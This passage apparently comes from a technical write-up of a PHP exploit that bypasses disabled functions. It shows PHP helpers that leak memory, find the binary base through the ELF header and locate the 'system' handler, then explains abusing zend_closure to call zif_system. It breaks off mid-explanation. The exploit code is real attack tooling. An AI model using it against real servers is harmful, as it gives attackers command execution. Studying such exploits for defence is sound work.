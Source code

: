 ```php
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Once we have this information the next step is to think in a way to call zif_system. In this exploit an approach based on closures is used. In PHP [anonymous functions are implemented using the Closure class](https://www.php.net/manual/en/functions.anonymous.php). The main structue related to closures is __zend_closure__:

```c
typedef struct _zend_closure {
	zend_object       std;
	zend_function     func;
	zval              this_ptr;
	zend_class_entry *called_scope;
	zif_handler       orig_internal_handler;
} zend_closure;
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Getting deeper inside the func field we can find that exists a handler pointing to the function with the code that will be executed. Indeed, the closure object created by the exploit (the real one) is:

